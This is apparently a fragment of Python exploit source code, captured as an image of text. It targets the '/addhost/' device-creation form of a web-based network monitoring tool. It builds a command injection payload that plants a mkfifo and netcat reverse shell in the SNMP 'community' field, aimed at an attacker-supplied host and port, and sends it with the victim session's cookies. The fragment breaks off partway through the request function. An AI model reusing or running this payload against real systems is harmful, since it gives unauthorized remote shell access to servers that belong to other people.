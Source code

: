 # remote host to connect to
rhost = sys.argv[3]

# remote port to connect to
rport = sys.argv[4]

# hostname to use (change it if you want)
hostname = "dummydevice"

# payload to create reverse shell
payload = "'$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {0} {1} >/tmp/f) #".format(rhost, rport)

# request headers
headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101"
    }

# request cookies
cookies = {}
for cookie in raw_cookies.split(";"):
    # print cookie
    c = cookie.split("=")
    cookies[c[0]] = c[1]


def create_new_device(url):
    raw_request = {
        "hostname": hostname,
        "snmp": "on",
        "sysName": "",
        "hardware": "",
        "os": "",
        "snmpver": "v2c",
        "os_id": "",
        "port": "",
        "transport": "udp",
        "port_assoc_mode": "ifIndex",
        "community": payload,
        "authlevel": "noAuthNoPriv",
        "authname": "",
        "authpass": "",
        "cryptopass": "",
        "authalgo": "MD5",
        "cryptoalgo": "AES",
        "force_add": "on",
        "Submit": ""
    }
    full_url = url + "/addhost/"
    request_body = urlencode(raw_request)
